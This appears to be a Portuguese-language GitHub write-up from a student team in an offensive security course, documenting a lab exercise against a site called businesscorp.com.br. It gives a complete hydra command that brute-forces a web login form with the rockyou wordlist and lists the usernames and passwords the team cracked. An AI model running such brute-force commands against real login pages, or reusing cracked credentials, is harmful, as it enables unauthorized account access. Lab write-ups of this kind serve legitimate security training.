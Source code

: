 # 🔍 Exploração do Site — ☢️ Penetratium ☢️ - Team 📡

## 🔗 Materia Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress
- 🔍 **Tipo:** Quebra de Hash

---
# Criar uma lista de usuarios baseado no OSINT:
<img width="375" height="281" alt="image" src="https://github.com/user-attachments/assets/8e9b1b20-e571-40d3-8ef7-971db5559727" />

- Usar o comando:

```txt
    hydra -L /home/china/Desktop/hydra/usuarios.txt -P /usr/share/wordlists/rockyou.txt businesscorp.com.br http-post-form "/app/index.php:username=^USER^&password=^PASS^:Login failed" -V -o resultados_login_app.txt
```

---
# ⚙️ Quebrando hash do ``Moikano``

<p align="center">
    <img width="772" height="439" alt="image" src="https://github.com/user-attachments/assets/0142404b-faa5-4b99-9b13-13f3af27a122" />
</p>

## 📌 Credenciais encontradas:
- Usuário: moikano
- Senha: fuck

---

# ⚙️ Quebrando hash do ``ti``

<p align="center">
    <img width="798" height="218" alt="image" src="https://github.com/user-attachments/assets/f912094c-5f32-4073-89bc-85a4a9e689a9" />
</p>

## 📌 Credenciais encontradas:
- Usuário: ti
- Senha: intranet
